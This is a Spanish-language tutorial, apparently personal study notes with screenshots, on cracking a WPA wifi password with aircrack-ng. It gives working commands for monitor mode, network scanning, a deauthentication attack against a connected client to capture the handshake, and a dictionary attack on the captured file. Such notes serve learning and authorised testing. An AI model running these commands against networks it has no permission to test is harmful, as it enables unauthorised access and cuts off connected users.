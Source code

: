 Lo primero será instalar aircrack-ng:
![[Pasted image 20230103115940.png]]
Y ahora es necesario activar el modo monitor en nuestra interfaz de red, fijándonos en el nombre de la interfaz wifi:
![[Pasted image 20240109092229.png]]
Ahora ejecutamos este comando para convertir la antena wifi en modo monitor:
```bash
airmon-ng start wlp1s0
```
![[Pasted image 20230103120438.png]]
Y ahora si ejecutamos un ifconfig veremos como la interfaz wifi ha cambiado:
![[Pasted image 20230103120719.png]]
Y ahora haremos un escaneo de las redes disponibles con este comando:
```bash
airodump-ng wlp1s0mon
```
![[Pasted image 20230103120946.png]]
![[Pasted image 20230103121047.png]]
Vamos a elegir el wifi llamado Red: 
![[Pasted image 20230103121938.png]]
Y ahora con su BSSID vamos a listar los devices que están conectados a esta red:
```bash
airodump-ng -c 1 --bssid 2C:99:24:69:4F:D9 -w captura wlp1s0mon
```
![[Pasted image 20230103122905.png]]
![[Pasted image 20240109093001.png]]
Y ahora es cuando tenemos que obtener el handshake; y para ello tenemos que generar tráfico al mismo tiempo, por lo que desde otra ventana vamos a generar tráfico:
```bash
# Con el -a cogemos el nombre del BSSID y con -c cogemos la estación.
aireplay-ng -0 9 -a 2C:99:24:69:4F:D9 -c 3E:AF:E4:72:E6:A0 wlp1s0mon 
```
![[Pasted image 20230103123344.png]]
Y una vez lanzado esto, ya tenemos el handshake:
![[Pasted image 20230103123418.png]]
Ahora veremos que tenemos una serie de archivos en el actual directorio, que los usaremos más adelante:
![[Pasted image 20230103123555.png]]
Una vez tenemos esto, solo necesitamos ejecutar este otro comando pasándole el handshake, seleccionando el fichero cap y un diccionario:
```bash
aircrack-ng -b 2C:99:24:69:4F:D9 -w diccionario.txt captura-02.cap
```
![[Pasted image 20230103234820.png]]
Y vemos que nos encuentra la contraseña gracias a que se encontraba dentro del diccionario:
![[Pasted image 20230103234902.png]]
Por último, para restablecer nuestra antena y quitar el modo monitor, lo haríamos de la siguiente forma:
```bash
sudo airmon-ng stop wlan0 # O el nombre de la interfaz que corresponda.
```